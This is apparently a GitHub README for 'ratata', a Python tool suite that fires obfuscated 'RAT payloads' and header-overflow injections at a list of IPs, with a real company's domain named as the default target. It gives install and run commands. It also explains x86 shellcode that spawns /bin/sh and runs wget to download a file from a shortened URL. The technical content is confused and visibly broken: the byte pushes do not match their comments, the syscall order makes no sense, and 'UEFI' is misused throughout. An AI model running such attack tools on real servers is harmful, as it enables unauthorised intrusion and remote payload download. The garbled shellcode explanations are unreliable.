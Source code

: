 # ratata
UEFI-encoded RAT attack tester suite for headers injections on servers.

Ratata takes in an IP, an IPv4, which you can modify in the list in the python file, and attacks it with obsfuscated RAT payloads.. these payloads are obsfuscated in different ways in each version, v1.0 and v2.0 using a UEFI encoder and v3.0 using a polyglot encoder. Right now the file targets the evil master of all servers on chuckecheese.com. You can add as many as you want but when you run the script it asks how many iterations you want.. default is 100, which is a lot (set at 2 is recommended..).. these iterations test RAT debug payloads that are in the code.

ratata_v2 (the version 2.0) is what you want . the first iteration it does is a standard, well-tested well-battled polyglot that works on a lot of stuff...
i call it the ratata polyglot and it's now available in ratata 2.0.

ratata_v3 is even better though.. it uses a recursive ai to add to the ratata polyglot in 2.0. each iteration builds upon the ratata polyglot to achieve an execution.

ratata 1.0 is pure UEFI rando algo stuff.. try to get something new. ratata injects on headers.

to install do:

git clone https://github.com/aamazie/ratata/

to run do:

cd ratata

python ratata_v2.py


ALSO included a UEFI injection debug scanner. Injects a NOP sled + overflow + INT3 trap (for debug). Shows up if the maxheaders go above 256-bit and cause a header buffer overflow.

Raticate is the utilmate utility in finding UEFI overflows.. it parses through many shellcode payloads and injects a RAT debug. It hacks everything with a NOP Sled Overflow.

Pikachu is some kind of another bug ai scanner that's like a combination of raticate v2.0 and ratata v3.0 to find RAT injections. Asks for iteration count and you can put multiple IPs into the list in the python.

Raichu is an update to the extremely verbose and effective Raticate_V2 that should work for more domains.



Pigeon.py has a different shellcode execution to Raticate_V2.. it shows a wget payload is possbile to execute through arbtrary shellcode executionw:

1. Push /bin/sh onto the stack:
The shellcode first prepares the /bin/sh command so that when execve is called, it can invoke the shell. This is important because we need a shell environment to execute wget.

python
Copy code
b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"  # Push "/bin//sh" to stack
b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"              # Execve syscall to spawn a shell
Explanation:
31 c0: XOR the EAX register with itself (sets EAX to 0).
50: Push EAX (null terminator for the string).
68 2f 2f 73 68: Push the string "//sh" to the stack (part of /bin/sh).
68 2f 62 69 6e: Push the string "/bin" to the stack.
89 e3: Move the pointer to the top of the stack (/bin/sh) into the EBX register.
The next instructions set up execve with /bin/sh.
Now, the shell environment is set up and ready to run commands, but before execve is called, we need to push the arguments for the command we want to run.

2. Push the wget command and URL onto the stack in reverse:
To run wget, we push the command and the URL in reverse order (due to how the stack works — it pushes bytes in a last-in-first-out manner). The URL will be broken into parts and pushed one after the other.

For example, if we want to call wget https://bit.ly/3xyzabc, the URL and command need to be pushed in chunks, starting from the end and working backwards.

Here’s how we can push https://bit.ly/3xyzabc:

python
Copy code
# Push the URL "https://bit.ly/3xyzabc" in reverse
b"\x68\x7a\x61\x62\x63"                      # Push "zabc" (last part of URL)
b"\x68\x33\x78\x79\x7a"                      # Push "3xyz"
b"\x68\x2e\x6c\x79\x2f"                      # Push ".ly/"
b"\x68\x62\x69\x74\x2f"                      # Push "bit/"
b"\x68\x73\x3a\x2f\x2f"                      # Push "://"
b"\x68\x73\x68\x74\x74"                      # Push "shtt" (first part of "https")
Explanation:
68 <hex values>: This is the instruction to push a 4-byte value onto the stack.
Each chunk of the URL is pushed in reverse because the stack works by pushing items last-in-first-out (LIFO). When execve runs, it will read the stack from bottom to top, giving us the correct URL.
3. Push the wget command:
Now that the URL is on the stack, we need to push the command wget that we want to execute.

python
Copy code
b"\x68\x2f\x77\x67\x65"                      # Push "wget" command
Explanation:
We push the string "wget" onto the stack so that when /bin/sh runs, it knows to run wget with the URL as its argument.
4. Call execve to execute /bin/sh:
After everything is pushed onto the stack, we call execve, which will spawn a shell and execute wget with the URL as its argument.

python
Copy code
b"\x50\x53\x89\xe1\xb0\x0b\xcd\x80"          # Execve syscall to execute the command
Explanation:
50: Push the EAX register (null terminator).
53: Push the EBX register (which contains the address of the command).
89 e1: Move the pointer to the stack into the ECX register (for execve).
b0 0b: Load 11 (the execve syscall number) into EAX.
cd 80: Trigger an interrupt to make the system call.
Complete Shellcode:
Here’s the full shellcode that will execute wget https://bit.ly/3xyzabc:

python
Copy code
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"  # Push "/bin//sh" to stack
    b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"              # Execve syscall to spawn a shell

    # Push the URL "https://bit.ly/3xyzabc" in reverse
    b"\x68\x7a\x61\x62\x63"                      # Push "zabc" (last part of URL)
    b"\x68\x33\x78\x79\x7a"                      # Push "3xyz"
    b"\x68\x2e\x6c\x79\x2f"                      # Push ".ly/"
    b"\x68\x62\x69\x74\x2f"                      # Push "bit/"
    b"\x68\x73\x3a\x2f\x2f"                      # Push "://"
    b"\x68\x73\x68\x74\x74"                      # Push "shtt" (first part of "https")

    # Push "wget" command
    b"\x68\x2f\x77\x67\x65"                      # Push "wget" command

    # Call execve to execute wget https://bit.ly/3xyzabc
    b"\x50\x53\x89\xe1\xb0\x0b\xcd\x80"          # Execve syscall to execute the command
)
Execution Flow:
Set up /bin/sh: We prepare the shell environment.
Push wget https://bit.ly/3xyzabc: The URL is pushed in reverse order onto the stack.
Execute wget: execve is called, spawning /bin/sh and running wget with the URL.
This allows the target system to execute the wget command to download a file from https://bit.ly/3xyzabc.

DISCLAIMER: the developers claim no responsibility or liability for the public misuse of this debugger, their property.
